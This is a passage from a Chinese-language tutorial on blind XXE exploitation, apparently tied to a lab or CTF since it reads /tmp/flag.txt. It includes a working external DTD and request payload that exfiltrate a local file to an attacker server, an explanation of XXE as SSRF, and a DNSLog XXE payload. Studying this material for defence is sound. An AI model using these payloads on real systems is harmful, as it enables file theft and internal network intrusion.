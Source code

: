 



1.在我们VPS创建一个`test.dtd`文件：

```xml-dtd
<!ENTITY % file SYSTEM "file:///tmp/flag.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.3.214:7777?p=%file;'>">
```

2.开始web服务，以便后续步骤可以访问到这个`test.dtd`文件，比如SimpleHTTPServer

3.burp抓包修改数据包, 下面数据包一旦经受害者服务器处理，就会向我们的vps发送请求，查找我们的DTD文件

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.3.214:7777/test.dtd">
%remote;%int;%send;
]>
```

结果我们vps收到了flag.txt的文件内容，而SimpleHTTPServer也收到了对test.dtd的GET请求

![image-20240705210921413](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705210921413.png)



**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 `%remote;%int;%send;`，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。







**思考：**

我们刚刚都只是做了一件事，那就是通过 file 协议读取本地文件，或者是通过 http 协议发出请求，熟悉 SSRF 的童鞋应该很快反应过来，这其实非常类似于 SSRF ，因为他们都能从服务器向另一台服务器发起请求，那么我们如果将远程服务器的地址换成某个内网的地址，（比如 192.168.0.10:8080）是不是也能实现 SSRF 同样的效果呢？没错，**XXE 其实也是一种 SSRF 的攻击手法，因为 SSRF 其实只是一种攻击模式**，利用这种攻击模式我们能使用很多的协议以及漏洞进行攻击。



所以要想更进一步的利用我们不能将眼光局限于 file 协议，我**们必须清楚地知道在何种平台，我们能用何种协议**:

![image-20240705211110521](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705211110521.png)











### 请求DNSLog

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY file SYSTEM "https://dnslog地址">
]>
<root>&file;</root>


```
